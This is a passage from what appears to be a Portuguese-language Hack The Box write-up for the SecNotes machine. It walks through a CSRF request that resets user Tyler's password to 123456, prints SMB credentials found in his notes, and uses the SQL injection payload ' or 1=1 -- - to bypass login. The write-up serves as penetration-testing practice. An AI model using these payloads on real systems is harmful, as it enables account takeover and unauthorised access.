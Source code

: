 Vamos lá, apenas inserimos nosso endereço de IP dentro do campo Contact Us

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web12.png)

Recebemos no NC a conexão, ou seja, comprovamos aqui que o usuário "clica" no link que é enviado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web11.png)

Agora vamos enviar a requisição maliciosa para alterar a senha do Tyler

`http://10.10.10.97/change_pass.php?password=123456&confirm_password=123456&submit=submit`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web13.png)

Enviamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web14.png)

Logamos como tyler, com a senha 123456, que foi alterada

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web16.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web17.png)

Agora veficamos o campo `Notes` dele e vemos as credenciais para acessar o servidor smb

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web15.png)

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

Bom, agora vamos explorar esse usuário tyler de outra maneira

# Explorando SQLInjection

A ideia aqui é simples, é um ataque de SQL de segunda ordem (não sei bem explicar direito como isso ocorre), mas acontece pq não foi feita a sanitização correta do campo Username, onde possibilida adicionarmos comentários dentro dela, bypassar a verificação pelo banco de dados e assim, ter acesso ao painel

`' or 1=1 -- -`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web18.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web19.png)

Agora logamos!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-secnotes/S_web20.png)
